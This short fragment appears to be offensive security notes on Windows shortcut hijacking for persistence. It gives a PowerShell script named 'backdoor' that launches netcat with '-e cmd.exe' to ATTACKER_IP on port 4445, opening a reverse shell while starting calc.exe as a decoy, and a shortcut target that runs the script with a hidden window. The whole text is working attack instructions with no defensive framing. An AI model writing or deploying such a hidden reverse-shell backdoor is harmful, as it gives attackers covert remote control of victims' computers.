 
```backdoor_ps1
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```


in the shortcut target, add the following
```Target
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

